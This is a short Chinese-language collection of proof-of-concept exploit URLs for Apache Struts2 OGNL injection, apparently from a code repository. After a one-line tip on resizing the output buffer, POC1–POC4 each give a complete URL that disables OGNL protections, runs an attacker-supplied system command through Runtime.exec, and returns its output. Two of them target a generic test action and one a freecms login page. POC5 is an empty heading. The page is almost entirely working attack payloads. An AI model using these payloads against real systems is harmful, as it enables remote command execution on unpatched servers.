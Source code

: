 #### **命令执行：**

关于回显：webStr\75new\40byte[100] 修改为合适的长度。

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter(%22cmd%22))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[100]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd%20/c%20ipconfig 
```

POC2:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[100],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))%2b'&cmd=cmd%20/c%20ipconfig 
```

POC3:

```
http://127.0.0.1/freecms/login_login.do?user.loginname=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))&z[(user.loginname)('meh')]=true&cmd=cmd%20/c%20set 
```

POC4:

```
http://127.0.0.1/Struts2/test.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23a=%40java.lang.Runtime%40getRuntime().exec(%23req.getParameter(%22cmd%22)).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char%5b50000%5d,%23c.read(%23d),%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%23d),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')]&cmd=cmd%20/c%20netstat%20-an 
```

POC5：
